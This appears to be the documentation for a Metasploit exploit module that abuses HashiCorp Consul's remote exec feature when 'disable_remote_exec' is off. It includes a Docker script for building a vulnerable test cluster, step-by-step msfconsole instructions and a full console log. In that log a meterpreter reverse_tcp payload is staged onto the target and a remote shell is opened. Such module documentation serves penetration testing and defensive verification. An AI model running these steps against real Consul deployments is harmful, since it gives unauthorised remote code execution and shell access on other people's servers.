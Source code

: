 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `disable_remote_exec` configuration flag set to false (default configuration up to version 0.8, opt-in since version 0.9).

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.


#### References

* Consul Exec - https://www.consul.io/docs/commands/exec.html
* Consul _disable_remote_exec_ option - https://www.consul.io/docs/agent/options.html#disable_remote_exec
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:latest agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:latest agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
d28e7cf476ff2f148cad81a0b1959a7c67591c2e348c6172b6f463af66d1eb9a
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
38a7c1d93e7f  172.17.0.1:8301  alive   server  1.4.0  2         dc1  <all>
d28e7cf476ff  172.17.0.2:8301  alive   client  1.4.0  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do docker stop $h && docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST ip_of_consul_container`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
